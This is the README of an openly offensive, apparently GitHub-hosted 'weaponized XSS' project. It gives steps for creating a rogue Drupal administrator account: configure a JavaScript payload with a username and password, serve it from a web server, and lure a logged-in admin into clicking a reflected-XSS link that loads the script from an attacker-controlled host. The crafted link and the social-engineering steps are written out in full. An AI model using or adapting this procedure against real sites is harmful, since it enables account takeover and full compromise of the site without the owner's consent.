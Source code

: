 # [Acc] Create New Admin User

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`createAdminAccDrupal.js`)

    `newAccUser` - username of the user account to be created

    `newAccPass` - password of the user account to be created (**NOTE**: no password requirements)

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload)

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.17/user/login

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/test/rxss.php?q=<script src=http://192.168.5.15/createAdminAccDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.15` - web server hosting payload

5. [post exploit] attacker logs into target Drupal site using specified credentials

    http://192.168.5.17/user/login

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/CreateNewAdmin/screenshots/Drupal_-_create_new_admin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/CreateNewAdmin/screenshots/Drupal_-_create_new_admin_-_1-1.png">
    </picture>
  </kbd>
</p>
